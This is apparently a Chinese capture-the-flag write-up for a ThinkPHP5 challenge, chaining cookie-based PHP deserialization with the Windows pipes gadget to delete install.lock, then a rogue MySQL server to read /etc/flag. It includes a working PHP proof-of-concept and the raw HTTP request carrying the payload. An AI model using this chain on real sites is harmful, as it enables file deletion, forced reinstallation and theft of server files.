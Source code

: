 # NoteBook
## 考点

- thinkphp5 反序列化任意文件删除
- phpmyadmin任意文件读取[phpMyAdmin 4.8.4 - 'AllowArbitraryServer' Arbitrary File Read](https://www.exploit-db.com/exploits/46041)

## 流程
1. 审计源码得到任意文件删除漏洞
2. 利用任意文件删除漏洞，删除install.lock，达到任意重装目的
3. 利用Mysql的`LOAD DATA INFILE`，建立一个假的mysql server读取/etc/flag

## 题目说明
听说最近thinkphp很火？

读取`/etc/flag`

## writeup

#### thinkphp反序列化漏洞利用
1. 扫描路径，得到www.zip 文件，泄漏了源码。
2. 审计后得到关注点
application/common.php
```php
function getSessionUser()
{
    $info = decode(\think\Cookie::get('info'));
    if(is_array($info) && isset($info['username']) && isset($info['password'])){
        $user = \think\Db::name('users')
            ->where('username','=',$info['username'])
            ->where('password','=',$info['password'])
            ->find();
        \think\Session::set('privilege',$user['id']);
        \think\Session::set('username',$user['username']);
        \think\Cookie::set('info',encode($user));
        return $user['id'];
    }
    unset($info);
    return null;
}
```
主要逻辑为从cookie中获取到用户相关信息，并查询该用户的权限信息。那么继续看decode函数是如何处理cookie中得到的数据的
```php
function decode($info)
{
    $key = CS;
    $info = urldecode($info);
    $kl = strlen($key);
    $il = strlen($info);
    for($i = 0; $i < $il; $i++)
    {
        $p = $i%$kl;
        $info[$i] = chr(ord($info[$i])-ord($key[$p]));
    }
    $info = unserialize($info);
    return $info;
}
```

可以发现做了简单的数学运算，并调用了unserialize函数，那么如果$key可控的化，我们就能触发一个反序列化漏洞。来看一下$key是怎么生成的

```php
define('CS',md5(base64_encode($_SERVER['HTTP_HOST'])));
```

很明显HTTP_HOST对我们来说是可控的，那么相当于我们有了反序列化的利用点，只需要再找到一个反序列化串就可以达到目的。
直接查找几个常见的魔术函数，找到一个位置可利用thinkphp/library/think/process/pipes/Windows.php
```php
<?php
namespace think\process\pipes;

use think\Process;

class Windows extends Pipes
{

    /** @var array */
    private $files = [];
    /** @var array */
    private $fileHandles = [];
    /** @var array */
    private $readBytes = [
        Process::STDOUT => 0,
        Process::STDERR => 0,
    ];
    
    // ...
    
    public function __destruct()
    {
        $this->close();
        $this->removeFiles();
    }

    // ...
    
    /**
     * 删除临时文件
     */
    private function removeFiles()
    {
        foreach ($this->files as $filename) {
            if (file_exists($filename)) {
                @unlink($filename);
            }
        }
        $this->files = [];
    }
    // ...
}
```
可以注意到Windows类的__destruct函数调用了removeFiles函数，而removeFiles会删除$this->files里面的文件，所以用这个类我们可以达到任意文件删除的效果。
由于这道题本身的题目功能有限，除了主要功能，还有一个install模块，该模块完成安装过程。并且判断是否已经安装，由public/install.lock文件决定。既然我们可以达到任意文件删除的效果，我们就可以利用该漏洞造成重装漏洞。写一下poc
```php
<?php
/**
 * Created by PhpStorm.
 * User: wh1t3P1g
 * Date: 2019/1/2
 * Time: 20:41
 */




namespace think\process\pipes {
    define('CS',md5(base64_encode('127.0.0.1')));

    class Windows {
        private $files = [
            'public/install.lock',
        ];
        public function __construct()
        {

        }
    }

    function encode($info)
    {
        $info = serialize($info);
        $key = CS;
        $kl = strlen($key);
        $il = strlen($info);
        for($i = 0; $i < $il; $i++)
        {
            $p = $i%$kl;
            $info[$i] = chr(ord($info[$i])+ord($key[$p]));
        }
        return urlencode($info);
    }

    $poc = new Windows();
    var_dump(encode($poc));
}
```
替换cookie中的info值，这里需要注意的是系统仅当用户的session不存在时，才会去读cookie中的info值，那么在发包时需要删除cookie中的session值。
```
GET /index/index/logout HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; CrOS armv7l 9592.96.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/index/note/getall.html
Connection: close
Cookie:  info=%B2pf%9BkY%A7%98%CC%D3%A1%C2%D1%D5%9F%9B%C9%D9%D8%8D%A0%9C%A3%9B%A5%91%87%CC%A1%C9%A6%A9%D6Xn%95k%B2%A6j%96%99p%88a%D7%98%A1%D2%D1%C1%A1%A2%A2%96%9B%A5%A8%8C%D3%9C%D5%9C%A5%BF%8D%9D%D2%95%A6%AA%A3c%CB%9F%D2%C6%D6Rs%C5%A0%96k%AB%9Cmfm%A8j%94l%9FY%A2%D8%98%A0%CD%94f%9C%9E%D6%D9%97%D2%CD%91%9C%A7%C7%D1%87l%AD%B0
Upgrade-Insecure-Requests: 1
```
#### 利用fake mysql server任意读取文件
到了这里，我们可以看到系统的重装页面，主要为mysql的一个系统配置，根据phpMyAdmin 4.8.4的任意文件读取漏洞原理，不难看出利用该原理，我们也同样可以读取/etc/flag文件内容
这里利用[GitHub - allyshka/Rogue-MySql-Server: MySQL fake server for read files of connected clients](https://github.com/allyshka/Rogue-MySql-Server) 建立起一个假的mysql端，并在系统配置页面配置上ip等相关信息
这里不好贴图，就不贴图了，配置好后，在mysql.log里就能看到flag


